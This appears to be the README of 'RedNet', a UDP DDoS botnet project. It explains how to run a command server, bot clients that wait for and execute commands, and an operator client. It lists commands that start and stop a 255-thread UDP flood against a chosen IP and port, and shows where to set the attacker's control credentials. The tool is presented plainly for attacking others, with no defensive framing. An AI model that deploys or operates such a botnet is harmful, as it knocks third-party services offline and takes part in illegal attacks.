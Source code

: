 # **RedNet**

### A UDP DDos botnet that you can flood udp packets.
> Is under development

## Usage

### Server: Accepts connections and redirects commands to bots
- ``` python3 server.py ``` **(python3)**

### Client: Connects to the server, waits for commands, and executes them.
- ``` python client.py ``` **(It depends on the modules) (python2)**

### root_cient: Connects to the server, and allows you to send commands to the bots.
- ``` python root_client.py --host IP --port PORT ``` **(python2)**

## Commands
- ``` !bots ``` **Returns the number of bots actives.**
- ``` !udpflood.start IP:PORT ``` **Starts UDP Flood DDos Attack, with 255 threads**
- ``` !udpflood.stop ``` **Stop the attack**

## Modify it
- ``` user_required and pass_required on server.py ``` **(It is the username and password that the attacker will use to control the bots.)**
- ``` user and password on root_client.py ``` **(Is the username and password that will be sent when connecting)**
